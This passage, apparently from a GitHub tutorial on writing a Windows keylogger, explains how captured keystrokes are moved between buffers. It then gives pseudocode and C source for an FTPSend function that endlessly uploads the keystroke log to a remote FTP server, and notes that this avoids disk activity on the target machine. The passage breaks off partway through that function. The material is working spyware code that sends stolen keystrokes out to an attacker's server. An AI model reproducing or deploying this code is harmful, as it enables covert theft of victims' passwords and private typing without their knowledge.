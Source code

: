 After all of that has been processed, the keystrokes in the keystroke buffer must be moved into the temporary buffer for uploading. The keystroke buffer needs to be checked first before it can move on to new keystroke input. To make sure that it is always available, an infinite wait state is entered until the temporary buffer is available. When the wait state is unlocked, it will move the data in the keystroke buffer to the temporary buffer and signal for uploading, then zero out the memory for space for new keystrokes. Otherwise, it will enter a wait state which will immediately time out if the temporary buffer is not yet available and continue on.

### `FTPSend`

The following is the pseudocode for the `FTPSend` function.

1. Sleep for a specified timeout period
2. Signal that the upload buffer has no data to upload
3. Wait until data has been placed into the upload buffer and is signaled
4. Initialize an FTP internet connection
5. Send an FTP append command to append the data in the upload buffer
6. Write the data to the remote file
7. Close connection and repeat indefinitely

A method to prevent disk activity on the target machine is to directly transfer the data over the web. The following code snippet shows how this can be done.

```c
VOID FTPSend(VOID) {
    while (TRUE) {
        // wait until upload buffer has new data
        Sleep(TIMEOUT);
        SetEvent(hTempBufNoData);
        WaitForSingleObject(hTempBufHasData, INFINITE);

        HINTERNET hINet = InternetOpen(NAME, INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, INTERNET_FLAG_PASSIVE);
        if (hINet == NULL)
            continue;

        HINTERNET hFTP = InternetConnect(hINet, FTP_SERVER, INTERNET_DEFAULT_FTP_PORT, FTP_USERNAME, FTP_PASSWORD, INTERNET_SERVICE_FTP, INTERNET_FLAG_PASSIVE, NULL);
        if (hFTP == NULL) {
            InternetCloseHandle(hINet);
            continue;
        }

        HINTERNET hFTPFile;
        CHAR szTemp[256];
        // FTP append command
        sprintf(szTemp, "APPE %s", FTP_LOG_PATH);
        BOOL bSuccess = FtpCommand(hFTP, TRUE, FTP_TRANSFER_TYPE_ASCII, szTemp, 0, &hFTPFile);
        if (bSuccess == FALSE) {
            InternetCloseHandle(hFTP);
            InternetCloseHandle(hINet);
            continue;
        }

        DWORD dwWritten = 0;
        bSuccess = InternetWriteFile(hFTPFile, lpTempBuf, strlen(lpTempBuf), &dwWritten);
        if (bSuccess == FALSE) {
            InternetCloseHandle(hFTP);
            InternetCloseHandle(hINet);
            continue;
        }

        InternetCloseHandle(hFTPFile);
        InternetCloseHandle(hFTP);
        InternetCloseHandle(hINet);
```